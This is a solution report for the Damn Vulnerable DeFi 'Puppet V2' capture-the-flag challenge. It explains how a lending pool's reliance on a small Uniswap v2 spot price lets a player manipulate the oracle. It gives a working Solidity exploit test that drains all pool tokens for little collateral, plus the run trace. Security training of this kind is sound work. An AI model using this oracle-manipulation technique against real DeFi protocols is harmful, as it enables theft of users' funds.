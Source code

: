 # Damn Vulnerable DeFi - Puppet V2 - Solution Report

## Problem Analysis

### Contract Summary

The main contract in this challenge is `PuppetV2Pool`, which allows users to borrow tokens by depositing WETH as collateral. Key functions include:

- `borrow(uint256 borrowAmount)`: Allows users to borrow tokens by depositing WETH.
- `calculateDepositOfWETHRequired(uint256 tokenAmount)`: Calculates the required WETH deposit for a given token amount.
- `_getOracleQuote(uint256 amount)`: Fetches the price from Uniswap v2 using official libraries.

The contract uses a Uniswap v2 exchange as a price oracle to determine the collateral requirements.

### Initial Setup

- Player's initial balance: 20 ETH and 10,000 DVT tokens
- Uniswap pool: 100 DVT and 10 WETH
- Lending pool: 1,000,000 DVT tokens

### Success Criteria

To solve the challenge, the player must:

1. Drain all DVT tokens (1,000,000) from the lending pool.
2. Transfer the drained tokens to the recovery address.

## Vulnerability

The vulnerability in this challenge lies in the `PuppetV2Pool` contract's reliance on Uniswap v2 as a price oracle without any safeguards against price manipulation. The critical vulnerability is in the `_getOracleQuote` function:

```solidity
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) =
        UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

    return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
}
```

This function directly uses the Uniswap pool's reserves to calculate the price, making it susceptible to manipulation through large trades. The vulnerability is exacerbated by:

1. Lack of time-weighted average price (TWAP): The contract uses the current spot price instead of a time-weighted average, making it vulnerable to flash loan attacks and large trades.

2. Small liquidity pool: The Uniswap pool has a relatively small amount of liquidity (100 DVT and 10 WETH), making it easier to manipulate the price with a large trade.

3. No slippage protection: The `borrow` function doesn't include any slippage protection or maximum price checks, allowing transactions to be executed even after significant price changes.

These vulnerabilities allow an attacker to manipulate the price of DVT tokens in the Uniswap pool, artificially lowering the WETH collateral required to borrow DVT tokens from the `PuppetV2Pool` contract.

## Attack Method

The attack exploits the vulnerability in the price oracle by manipulating the Uniswap v2 pool's price. The attack method consists of the following steps:

1. Price Manipulation:

   - Approve the Uniswap Router to spend the player's DVT tokens.
   - Swap all of the player's DVT tokens (10,000 DVT) for WETH through the Uniswap pool.
   - This large trade significantly impacts the pool's reserves, drastically reducing the price of DVT relative to WETH.

2. Prepare WETH:

   - Convert all remaining ETH to WETH.
   - This maximizes the amount of WETH available for the attack.

3. Calculate Required Collateral:

   - Use the `calculateDepositOfWETHRequired` function to determine the amount of WETH needed to borrow all DVT tokens from the lending pool.
   - Due to the price manipulation, this amount will be much lower than it should be.

4. Borrow DVT Tokens:

   - Approve the `PuppetV2Pool` contract to spend the required amount of WETH.
   - Call the `borrow` function to borrow all DVT tokens from the pool (1,000,000 DVT).
   - The manipulated price allows the attacker to borrow a large amount of DVT with a relatively small WETH deposit.

5. Complete the Attack:
   - Transfer all borrowed DVT tokens to the recovery address.

This attack method exploits the oracle's vulnerability to price manipulation, allowing the attacker to drain the entire DVT balance from the lending pool with a fraction of the intended collateral.

## Proof of Concept (PoC)

### Core Implementation

The core implementation of the attack is contained in the `test_puppetV2` function:

```solidity
function test_puppetV2() public checkSolvedByPlayer {
    // 1. Approve Uniswap Router to spend DVT tokens
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);

    // 2. Swap DVT for WETH to manipulate the price
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);

    uniswapV2Router.swapExactTokensForETH(PLAYER_INITIAL_TOKEN_BALANCE, 0, path, player, block.timestamp);

    // 3. Wrap all ETH to WETH
    uint256 playerEthBalance = player.balance;
    weth.deposit{value: playerEthBalance}();

    // 4. Calculate required WETH to borrow all DVT from the pool
    uint256 poolDvtBalance = token.balanceOf(address(lendingPool));
    uint256 wethRequired = lendingPool.calculateDepositOfWETHRequired(poolDvtBalance);

    // 5. Approve PuppetV2Pool to spend the exact amount of WETH required
    weth.approve(address(lendingPool), wethRequired);

    // 6. Borrow all DVT from the pool
    lendingPool.borrow(poolDvtBalance);

    // 7. Transfer borrowed DVT to recovery address
    token.transfer(recovery, poolDvtBalance);
}
```

### Running Result

```
    ├─ [519] DamnValuableToken::balanceOf(PuppetV2Pool: [0x9101223D33eEaeA94045BB2920F00BA0F7A475Bc]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Lending pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
